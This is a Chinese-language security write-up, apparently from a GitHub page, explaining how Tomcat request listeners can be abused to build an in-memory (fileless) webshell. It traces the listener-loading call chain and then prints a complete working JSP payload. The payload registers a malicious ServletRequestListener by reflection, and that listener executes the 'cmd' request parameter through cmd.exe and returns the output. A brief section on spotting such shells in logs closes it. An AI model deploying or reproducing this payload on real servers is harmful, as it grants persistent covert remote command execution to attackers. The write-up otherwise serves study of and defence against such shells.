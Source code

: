 # Tomcat-Listener型内存马

<center>@Y4tacker</center>

## 初步体验监听器创建

其中要实现两个方法：

**requestInitialized：**在request对象创建时触发

**requestDestroyed：**在request对象销毁时触发

简单实现一下Listener

```Java
public class TestListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("destroy TestListener");
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("initial TestListener");
    }
}
```

在`web.xml中

```xml
<listener>
    <listener-class>com.yyds.TestListener</listener-class>
</listener>
```



## 流程分析

我们知道监听器的过程：Listener -> Filter -> Servlet

Listener是最先被加载的, 所以可以利用动态注册恶意的Listener内存马。而Listener分为以下几种：

- ServletContext，服务器启动和终止时触发
- Session，有关Session操作时触发
- Request，访问服务时触发

不难想到，其中关于监听Request对象的监听器是最适合做内存马的，只要我们访问服务就能触发相应操作

如果在Tomcat要引入listener，需要实现两种接口，分别是`LifecycleListener`和原生`EvenListener`。

实现了`LifecycleListener`接口的监听器一般作用于tomcat初始化启动阶段，此时客户端的请求还没进入解析阶段，不适合用于内存马。

另一个`EventListener`接口，在Tomcat中，自定义了很多继承于`EventListener`的接口，应用于各个对象的监听，idea下用快捷键`Ctrl+H`查看所有实现接口的类

![](img/1.png)

重点来看`ServletRequestListener`接口，`ServletRequestListener`用于监听`ServletRequest`对象的创建和销毁，当我们访问任意资源，无论是servlet、jsp还是静态资源，都会触发`requestInitialized`方法

在`requestInitialized`处下断点，清楚看到调用链

![](img/2.png)

我们看到listener是在StandardContext#getApplicationEventListeners方法中获得![](img/3.png)![](img/4.png)

那如何添加listener呢，可以看到在StandardContext#addApplicationEventListener添加了listener![](img/5.png)

因此我们不难想到通过反射调用StandardContext#addApplicationEventListener方法，add我们自己写的恶意listener

方式一：

```jsp
<% Field reqF = request.getClass().getDeclaredField("request"); reqF.setAccessible(true); Request req = (Request) reqF.get(request); StandardContext context = (StandardContext) req.getContext(); %>
```

方式二：

```jsp
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
    StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
```

因此看看这个内存马就不难理解了

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>

<%!
    public class MyListener implements ServletRequestListener {
        public void requestDestroyed(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null){
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",req.getParameter("cmd")}).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\\A");
                    String out = s.hasNext()?s.next():"";
                    Field requestF = req.getClass().getDeclaredField("request");
                    requestF.setAccessible(true);
                    Request request = (Request)requestF.get(req);
                    request.getResponse().getWriter().write(out);
                }
                catch (IOException e) {}
                catch (NoSuchFieldException e) {}
                catch (IllegalAccessException e) {}
            }
        }

        public void requestInitialized(ServletRequestEvent sre) {}
    }
%>

<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
    MyListener listenerDemo = new MyListener();
    context.addApplicationEventListener(listenerDemo);
%>
```

![](img/6.png)

删除后随便来一个

![](img/7.png)

## 如何防御

如果是通过命令执行漏洞，那么看看日志的请求应该能排查

可能会有较多的404但是带有参数的请求，或者大量请求不同url但带有相同的参数，或者页面并不存在但返回200